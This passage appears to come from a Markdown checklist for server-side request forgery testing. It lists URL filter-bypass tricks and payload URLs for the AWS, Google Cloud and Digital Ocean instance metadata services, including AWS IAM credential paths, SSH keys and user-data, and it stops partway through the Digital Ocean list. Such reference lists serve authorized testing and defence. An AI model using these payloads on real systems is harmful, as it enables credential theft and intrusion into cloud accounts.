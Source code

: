         ```
        
    - Bypassing filters
        - [ ]  Bypass using HTTPS
        - [ ]  Bypass with [::]
        - [ ]  Bypass with a domain redirection
        - [ ]  Bypass using a decimal IP location
        - [ ]  Bypass using IPv6/IPv4 Address Embedding
        - [ ]  Bypass using malformed urls
        - [ ]  Bypass using rare address(short-hand IP addresses by dropping the zeros)
        - [ ]  Bypass using enclosed alphanumerics
    - Cloud Instances
        - AWS
            
            ```jsx
            <http://instance-data>
            <http://169.254.169.254>
            <http://169.254.169.254/latest/user-data>
            <http://169.254.169.254/latest/user-data/iam/security-credentials/>[ROLE NAME]
            <http://169.254.169.254/latest/meta-data/>
            <http://169.254.169.254/latest/meta-data/iam/security-credentials/>[ROLE NAME]
            <http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance>
            <http://169.254.169.254/latest/meta-data/ami-id>
            <http://169.254.169.254/latest/meta-data/reservation-id>
            <http://169.254.169.254/latest/meta-data/hostname>
            <http://169.254.169.254/latest/meta-data/public-keys/>
            <http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>
            <http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key>
            <http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy>
            <http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access>
            <http://169.254.169.254/latest/dynamic/instance-identity/document>
            
            ```
            
        - Google Cloud
            
            ```jsx
            <http://169.254.169.254/computeMetadata/v1/>
            <http://metadata.google.internal/computeMetadata/v1/>
            <http://metadata/computeMetadata/v1/>
            <http://metadata.google.internal/computeMetadata/v1/instance/hostname>
            <http://metadata.google.internal/computeMetadata/v1/instance/id>
            <http://metadata.google.internal/computeMetadata/v1/project/project-id>
            
            ```
            
        - Digital Ocean
            
            ```jsx
            curl <http://169.254.169.254/metadata/v1/id>
            <http://169.254.169.254/metadata/v1.json>
            <http://169.254.169.254/metadata/v1/>
            <http://169.254.169.254/metadata/v1/id>
            <http://169.254.169.254/metadata/v1/user-data>
            <http://169.254.169.254/metadata/v1/hostname>
            <http://169.254.169.254/metadata/v1/region>
            <http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address>
            